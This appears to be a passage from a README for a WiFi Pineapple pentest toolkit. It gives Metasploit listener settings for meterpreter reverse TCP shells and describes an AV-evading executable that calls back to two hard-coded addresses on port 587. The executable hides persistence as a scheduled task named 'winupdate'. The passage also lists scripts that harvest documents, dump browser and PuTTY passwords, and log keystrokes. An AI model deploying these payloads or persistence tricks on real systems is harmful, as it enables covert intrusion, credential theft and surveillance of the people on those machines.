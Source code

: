 set LPORT 6446
<br>
set ExitOnSession false
<br>
set AutoRunScript ""
<br>
exploit -j
<br>
</code></pre>

<b>shellcode-tcp.exe</b>
<br>
Description: This is a windows meterpreter shell that was encoded into base 64, embedded into a python script that executes shellcode on the system and then compiled into an executable. It is not detect at the time of this writing. If the signature becomes detected, just make a new one.<br>
<br>
This will spawn 2 meterpreter shells to the following addresses:<br>
172.16.42.2 587<br>
172.16.42.3 587<br>
<br>
Persistence:<br>
It will also add a persistent backdoor to Windows that will these 2 shells every 3 minutes (schtasks /query /tn winupdate)<br>
<br>
Metasploit Listener:<br>
<pre><code>set PAYLOAD windows/meterpreter/reverse_tcp
<br>
set LHOST 0.0.0.0
<br>
set LPORT 587
<br>
set ExitOnSession false
<br>
set EXITFUNC thread
<br>
set AutoRunScript ""
<br>
exploit -j
<br>
</code></pre>

<h2>Included Resources</h2>
I have included a few resources that I find useful on pentests with the pineapple.<br>
<br>
<ul><li>Metasploit Scripts: These are resource scripts that can be executed from msfconsole or in meterpreter. Creates a nice way to automate post-exploitation at your fingertips. In order to run them use "resource resources/metaspoit_scripts/file_collector.rc".</li></ul>

<ul><li>file_collector.rc: Automatically search for documents on the system and download them.<br>
enum_app_data.rc: Enumerate passwords and other data from browsers, putty, etc.</li></ul>

<ul><li>keylog_recorder.rc: Start a keylogger that will poll and automatically collect keystokes. You can use this then CTRL+Z to background the session.</li></ul>
